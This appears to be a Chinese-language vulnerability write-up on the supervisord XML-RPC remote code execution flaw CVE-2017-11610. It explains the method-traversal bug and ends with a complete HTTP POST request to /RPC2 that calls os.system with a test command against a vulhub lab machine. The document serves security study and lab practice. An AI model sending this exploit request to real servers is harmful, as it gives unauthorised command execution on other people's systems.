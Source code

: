`supervisor_xmlrpc_handlerl`类用于处理 RPC 请求，其 call 方法就是真正执行远程调用的函数。在 call 方法中调用了 traverse 函数，跟进这个函数，我们发现他的逻辑是这样：

1. 将 method 用点号分割成数组 path
2. 遍历这个数组，每次获得一个 name
3. 如果 name 不以下划线开头，则获取 ob 对象的 name 属性，其作为新的 ob 对象
4. 遍历完成后获得最终的 ob 对象并调用

所以，实际上这个函数最后达成的效果就是：**初始 ob 对象下的任意 public 方法，包括它的所有递归子对象的任意 public 方法，都可以被调用。**而此处，ob 对象即为`self.rpcinterface`，官方开发者可能认为可调用的方法只限制在这个对象内部，所以没有做特别严格的白名单限制。

然而在`self.rpcinterface.supervisor.supervisord.options`对象下，有一个方法`execve`，其相当于直接调用了系统的`os.execve`函数，是可以直接执行任意命令的：

```python
class ServerOptions(Options):
    ...
    def execve(self, filename, argv, env):
        return os.execve(filename, argv, env)
```

---

## 漏洞利用

---

### 靶机环境

vulhub/supervisor/CVE-2017-11610

---

### 利用方式 1

> https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html

---

#### 利用过程

使用 supervisor.supervisord.options.warnings.linecache.os.system 方法，可以执行系统命令，然后利用

```
POST /RPC2 HTTP/1.1
Host: 192.168.1.189:9001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 275
<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```

